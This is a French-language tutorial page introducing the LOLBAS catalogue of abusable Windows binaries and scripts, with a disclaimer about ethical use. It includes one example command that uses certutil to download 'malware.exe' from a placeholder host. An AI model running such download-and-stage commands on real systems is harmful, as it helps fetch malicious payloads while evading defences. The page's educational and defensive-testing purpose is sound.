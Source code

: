 # LOLBAS

### **Tuto LOLBAS**

⚠️ **Avertissement** : Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

### **Introduction**

LOLBAS (Living Off The Land Binaries and Scripts) est un référentiel en ligne qui recense les binaires, scripts, et bibliothèques Windows pouvant être détournés à des fins malveillantes ou pour des tests de sécurité.

### **Accéder à LOLBAS**

* URL : [LOLBAS](https://lolbas-project.github.io)

### **Fonctionnalités principales :**

* **Catalogue des binaires Windows abusables :** Une collection exhaustive de binaires et scripts légitimes intégrés à Windows qui peuvent être détournés.
* **Filtres par type :** Explorer les binaires, scripts, ou bibliothèques par catégories spécifiques.
* **Exemples détaillés :** Chaque binaire est accompagné de techniques exploitables pour des activités comme l'escalade de privilèges, l'exfiltration, ou la persistance.

### **Comment utiliser LOLBAS**

1. **Rechercher un binaire/script :**
   * Accédez à [LOLBAS](https://lolbas-project.github.io).
   * Utilisez la barre de recherche ou parcourez les catégories pour trouver un binaire spécifique (ex. : `certutil`).
2. **Explorer les capacités :**
   * Cliquez sur le binaire pour voir les scénarios exploitables :
     * **Execution** : Utilisation du binaire pour exécuter des commandes arbitraires.
     * **Download** : Exploitation pour télécharger des fichiers à partir de l'Internet.
     * **Persistence** : Techniques pour maintenir l'accès au système.
3. **Exemple avec `certutil` :**
   *   Utilisation de `certutil` pour télécharger un fichier :

       ```cmd
       certutil.exe -urlcache -split -f http://example.com/malware.exe malware.exe
       ```
4. **Tester dans un environnement sécurisé :**
   * Ces techniques doivent être expérimentées dans un environnement contrôlé pour éviter tout impact négatif.

***

### **Bonnes Pratiques pour les Deux Ressources :**

* **Utilisation Éthique :** Ces outils sont conçus pour l'apprentissage et les tests de sécurité éthiques uniquement.
* **Test en Environnement Sécurisé :** Utilisez des machines virtuelles ou des environnements isolés pour tester les scénarios.
* **Mises à Jour Régulières :** Consultez fréquemment ces référentiels, car de nouveaux outils et méthodes y sont régulièrement ajoutés.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
